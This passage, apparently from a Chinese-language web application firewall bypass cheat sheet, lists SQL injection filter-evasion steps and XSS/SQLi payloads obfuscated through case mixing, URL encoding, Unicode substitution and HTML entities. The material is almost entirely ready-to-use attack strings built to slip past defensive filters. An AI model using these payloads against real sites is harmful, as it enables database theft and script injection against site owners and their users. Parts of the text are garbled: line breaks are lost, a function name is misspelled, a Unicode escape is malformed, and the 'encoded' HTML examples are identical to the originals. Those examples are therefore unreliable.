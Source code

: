 • Step 6:

```
过滤关键词: and, or, union, where, limit, group by, select, '被拦截的语句: 1 || (select substr(gruop_concat(user_id),1,1) user from users) = 1bypass语句: 1 || user_id is not nullbypass语句: 1 || substr(user,1,1) = 0x61bypass语句: 1 || substr(user,1,1) = unhex(61)
```

• Step 7:

```
过滤关键词: and, or, union, where, limit, group by, select, ', hex被拦截的语句: 1 || substr(user,1,1) = unhex(61)bypass语句: 1 || substr(user,1,1) = lower(conv(11,10,36))
```

• Step 8:

```
过滤关键词: and, or, union, where, limit, group by, select, ', hex, substr被拦截的语句: 1 || substr(user,1,1) = lower(conv(11,10,36))bypass语句: 1 || lpad(user,7,1)
```

• Step 9:

```
过滤关键词: and, or, union, where, limit, group by, select, ', hex, substr, white space被拦截的语句: 1 || lpad(user,7,1)bypass语句: 1%0b||%0blpad(user,7,1)
```

### **0X02        混淆 / 编码**

**1. 大小写**

```
标准: <script>alert()</script>Bypassed: <ScRipT>alert()</sCRipT>标准: SELECT * FROM all_tables WHERE OWNER = 'DATABASE_NAME'Bypassed: sELecT * FrOm all_tables whERe OWNER = 'DATABASE_NAME'
```

**2. URL 编码**

```
被阻断语句: <svG/x=">"/oNloaD=confirm()//Bypassed: %3CsvG%2Fx%3D%22%3E%22%2FoNloaD%3Dconfirm%28%29%2F%2F被阻断语句: uNIoN(sEleCT 1,2,3,4,5,6,7,8,9,10,11,12)Bypassed: uNIoN%28sEleCT+1%2C2%2C3%2C4%2C5%2C6%2C7%2C8%2C9%2C10%2C11%2C12%29
```

**3. Unicode 编码**

```
标准: <marquee onstart=prompt()>混淆: <marquee onstart=\u0070r\u06f\u006dpt()>被阻断语句: /?redir=http://google.comBypassed: /?redir=http://google。com (Unicode 替代)被阻断语句: <marquee loop=1 onfinish=alert()>xBypassed: ＜marquee loop＝1 onfinish＝alert︵1)>x (Unicode 替代)TIP: 查看这些说明 this and this reports on HackerOne. :)
```

**4. HTML 实体编码**

```
标准: "><img src=x onerror=confirm()>Encoded: "><img src=x onerror=confirm()> (General form)Encoded: "><img src=x onerror=confirm()> (Numeric reference)
```
